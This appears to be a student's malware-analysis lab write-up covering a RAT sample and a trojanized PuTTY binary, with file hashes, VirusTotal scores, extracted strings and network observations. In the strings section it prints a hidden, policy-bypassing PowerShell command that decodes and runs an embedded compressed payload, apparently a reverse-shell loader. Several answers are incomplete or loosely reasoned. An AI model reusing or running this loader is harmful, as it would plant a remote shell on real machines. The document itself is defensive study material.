

# The RAT.Unknown2.exe

# Basic Static analysis

## File hashes 

```text
C:\Users\sire\Desktop
λ sha256sum.exe RAT.Unknown2.exe.malz
481eae82ac4cd1a9cfadc026a628b18d7b4c54f50385d28c505fbcb3e999b8b0 *RAT.Unknown2.exe.malz

C:\Users\sire\Desktop
λ md5sum.exe RAT.Unknown2.exe.malz
c211704777e168a5151de79dc87ffac7 *RAT.Unknown2.exe.malz

C:\Users\sire\Desktop
```

In virus total it was flagged with 45 Vendors as malicius out of 72 [↗](https://www.virustotal.com/gui/file/481eae82ac4cd1a9cfadc026a628b18d7b4c54f50385d28c505fbcb3e999b8b0)
 


There was not much strings that stood out except for the sockets connection send and recieve which indicated a network connections 


# Basic Dynanic analysis

## Network based indicators 
>> Wireshark 

When you run the binary, you see a dns querry to `aaaaaaaaaaaaaaaaaaaa.kadusus.local`


At static analysis, we were not able to see this string because the malware and compile those strings in runtume not compilation 
So the A's are concatinated as varaibles during runtime 

so we have a dns record 

So we are gonna trick the malware that we are `kadusus.local` by eidting out host files to tell the malware is connected to out home server which is found in `C:\Windows\System32\etc\hosts` and add a last line `127.0.0.1    aaaaaaaaaaaaaaaaaaaa.kadusus.local`

By doing the bove we are tricking the malware to think it's talking to it's home base server but in reality it's talking to us 

After tricking the binary to call back on US we have a potentia dns which is https: port 443 seen in procmon after we detinate the binary


Now that we know it opens a socket connection on port 443, we can try set up a lstener since we trickefd the malware that we are the server dns and we foresure got a conneciton and command execution capabilities 


Now from procmon we can also observer the tree where by we can see process running down the heirachy from Explore.EXE down to RAT.unknown2.exe where by it tryes to querry the command whomai and try to find it from system32 in cmd.exe


# SillyPutty Intro


Hello Analyst,

The help desk has received a few calls from different IT admins regarding the attached program. They say that they've been using this program with no problems until recently. Now, it's crashing randomly and popping up blue windows when it's run. I don't like the sound of that. Do your thing!

IR Team

## Objective
Perform basic static and basic dynamic analysis on this malware sample and extract facts about the malware's behavior. Answer the challenge questions below. If you get stuck, the `answers/` directory has the answers to the challenge.

## Tools
Basic Static:
- File hashes
- VirusTotal
- FLOSS
- PEStudio
- PEView

Basic Dynamic Analysis
- Wireshark
- Inetsim
- Netcat
- TCPView
- Procmon

## Challenge Questions:

### Basic Static Analysis
---

- What is the SHA256 hash of the sample?

```text
C:\Users\sire\Desktop
λ sha256sum.exe putty.exe
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 *putty.exe

C:\Users\sire\Desktop
λ md5sum.exe putty.exe
334a10500feb0f3444bf2e86ab2e76da *putty.exe

C:\Users\sire\Desktop
λ
```

- What architecture is this binary?

From PiEStudio, we can the binary achitecture is a 32-bit architecture 

- Are there any results from submitting the SHA256 hash to VirusTotal?
Yes
The binary was flagged 61/71 vendoes as malicous 
 

[Link](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83/behavior)
- Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?

```text
e&w Session...
Bro&wse...
Change...
Trying gssapi-with-mic...
SSHCONNECTION@putty.projects.tartarus.org-
PuTTY-User-Key-File-
SSH-
SSHCONNECTION@putty.projects.tartarus.org-2.0-
----- Session restarted -----
---- BEGIN SSH2 PUBLIC KEY ----
---- END SSH2 PUBLIC KEY ----
-- warn below here --
VT100+
OpenSSH_2.[5-9]*
dropbear_0.[2-4][0-9]*
mod_sftp/0.[0-8]*
OpenSSH_6.[0-6]*
OpenSSH_2.[235]*
OpenSSH_2.[0-4]*
OpenSSH_2.5.[0-3]*
OpenSSH_3.[0-2]*
OpenSSH_2.[0-2]*
dropbear_0.5[01]*
<>:"/\|?*
2.0.10*
2.3.0*
2.2.0*
2.1.0*
2.0.0*
OpenSSH_[2-5].*
2.0.*
WeOnlyDo-*
2.1 *
Poor man's line drawing (+, - and |)
Bypass authentication entirely (SSH-2 only)
Arcfour (SSH-2 only)
Display pre-authentication banner (SSH-2 only)
Attempt GSSAPI authentication (SSH-2 only)
Remote ports do the same (SSH-2 only)
Attempt GSSAPI key exchange (SSH-2 only
```

one instresting strings that I got to
```bash
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
GDI32.dll
```
- Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
- Is it likely that this binary is packed?


Now if you subtract 00095F6D(614253) - 00096000(614400) =  -147 

which is not a bit value indicating the malware is not packed

---

### Basic Dynamic Analysis
 - Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?

> Without internet


 Without the internet a blue screen appears in the background for like 4 seconds and then it dissapeas with putty in the for-ground 

 > With internet

 Now we we run the malware with internet we get the same output as without internet but the blue screen take like 1/2 time before it disapreas as without internet 
 - From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
 
 

 We can see powershell opened here 
 When we run the malware we have like a 
 - What is the DNS record that is queried at detonation?


The DNS record is `bonus2.corporatebonusapplication.local` and is can be seen when on wireshark 
 - What is the callback port number at detonation?
 - What is the callback protocol at detonation?
 - How can you use host-based telemetry to identify the DNS record, port, and protocol?
 - Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?